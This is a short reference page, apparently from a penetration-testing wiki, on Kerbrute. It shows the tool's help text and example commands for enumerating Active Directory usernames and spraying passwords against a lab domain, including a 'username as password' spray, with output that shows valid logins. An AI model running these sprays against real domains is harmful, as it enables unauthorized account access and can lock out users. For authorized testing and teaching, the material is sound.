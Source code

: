 ```yaml
---
title : "Kerbrute"
# pre : ' '
description : "This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication."
date : 2021-02-15T13:24:03+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory']
---
```


## Kerbrute

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.

A list of common used AD usernames can be downloaded [here](https://github.com/crypt0rr/common-ad-usernames).

### Installation

Download latest library from [Github.com](https://github.com/ropnop/kerbrute/releases/latest)

### Usage

```plain
kerbrute [command]
```

### Flags

```plain
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### Examples

#### Validate usernames against domain

After you succesfully enumerated [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) you can try ASREPRoasting with [Impacket GetNPUsers.py]({{< ref "getnpusers-py" >}}) or use [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}) to do a password spray.

```plain
$ ./kerbrute userenum --dc 10.10.10.10 -d offsec.nl usersnames.txt -o userenum-output.txt

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

2021/02/15 13:22:24 >  Using KDC(s):
2021/02/15 13:22:24 >      10.10.10.10:88

2021/02/15 13:22:24 >  [+] VALID USERNAME:     john@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     jane@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     johndo-adm@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     janedo-adm@offsec.nl
2021/02/15 13:22:24 >  Done! Tested 21 usernames (4 valid) in 0.017 seconds
```

To extract the valid usernames to a separate file you can use the following command.

```plain
cat userenum-output.txt | awk '{print $7}' | cut -d '@' -f1 > available-users.txt
```

#### Password spray

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames, filter them and use as input for the spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt Welkom01!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop
```

#### Username as password

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames and use them as input for the 'user-as-pass' spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt --user-as-pass

   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/   \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/17/22 - Ronnie Flathers @ropnop

2022/01/17 15:35:28 >  Using KDC(s):
2022/01/17 15:35:28 >   10.10.10.10:88

2022/01/17 15:35:31 >  [+] VALID LOGIN:  svc_dcsync@offsec.nl:svc_dcsync
2022/01/17 15:35:38 >  Done! Tested 4393 logins (1 successes) in 9.460 seconds
```

### URL list

* [Github.com - kerbrute](https://github.com/ropnop/kerbrute)
